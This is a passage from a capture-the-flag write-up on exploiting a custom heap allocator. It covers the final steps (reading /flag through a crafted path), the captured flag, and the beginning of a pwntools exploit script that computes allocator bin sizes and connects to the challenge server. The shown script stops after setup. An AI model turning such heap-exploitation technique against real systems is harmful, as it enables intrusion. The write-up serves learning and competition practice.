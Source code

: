 6. `get /flag`. Unfortunately by now the freelist head of bin 0 is fubar. So 
   we cannot just send `/flag` because then `full_path` will be allocated 
   in bin 0 in.
   This means we have to allocate in another bin. We allocated in bin 1 by
   prepending a couple of `'/'` chars.
   
   ```python
   vp.sendline("get")
   vp.sendline("/" * (16 - 4) + "flag")
   ```
   
7. read and submit flag :)

   ```
   flag{cthulhu_likes_custom_mallocators}
   ```


For reference, the full exploit script is this:

```python
#!/usr/bin/env python

from pwn import *

def strlen(x):
    i = 0
    for c in x:
        if c == "\x00":
            break
        i += 1
    return i

chunk_size_by_idx = lambda idx: (1 << (idx + 4))

def chunk_idx_by_len(length):
     ci = 0
     while chunk_size_by_idx(ci) < length:
         ci += 1
     return ci

bins = [[0x2000, 0, chunk_size_by_idx(k)] for k in range(10)]
for i in range(0x2000):
    idx = chunk_idx_by_len(i + 1)
    if i < bins[idx][0]:
        bins[idx][0] = i
    if i > bins[idx][1]:
        bins[idx][1] = i

# for b, (min_, max_, size) in enumerate(bins):
#     log.info("bin {} len [{}; {}] chunk size = {}".format(b, min_, max_, size))

velf = ELF("./launch")
# dealarm the binary for debugging
webroot = "./public/"
index = "index.html"
# vp = process(['./mlaunch', webroot])  # with alarm noped out
# gdb.attach(vp, execute="""
# init-peda
# break main.c:276
# break main.c:231
# break main.c:201
# """)

vp = remote("cthulhu.fluxfingers.net", 1509)

context.log_level = 'debug'
```